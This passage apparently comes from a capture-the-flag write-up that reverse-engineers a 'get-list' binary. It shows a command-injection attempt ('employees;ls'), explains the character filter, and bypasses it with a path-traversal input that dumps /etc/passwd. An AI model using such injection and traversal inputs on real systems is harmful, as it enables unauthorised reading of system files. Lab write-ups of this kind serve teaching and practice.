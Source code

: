 Let's see what happens when we execute the binary.

```
$ ./get-list
Which List do you want to open? [customers/employees]:
```

It seems like the binary attempts to open a file,.

When we pass `users` as the input the response is `Oops something went wrong!`.

```
Which List do you want to open? [customers/employees]: users
Oops something went wrong!!$
```

But when we pass `employees;ls` as input, it immediately terminates the program without any error.

```
$ ./get-list
Which List do you want to open? [customers/employees]: employees;ls
$
```

### Reverse Engineering The Binary:

When the program asks us which list we want to open, it only accepts the specified amount as an input, making a buffer overflow a non-viable attack.

Next, it checks if any of the following characters are present: `;` `&` `|`.

If they are present, the program immediately terminates.

If they are not present, the program checks if either `customers` or `employees` options are present.

If neither are present, the programs prints `Oops something went wrong!!` and exits the program.

If those options are present, the program prints `Opening File....` and proceeds to `cat` out the `/root/details/%s`.

With this logic in mind, we can attempt to open the **/etc/passwd/** file with the following input:

```
$ ./get-list
Which List do you want to open? [customers/employees]: ../../etc/passwd #employees
Opening File....
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```
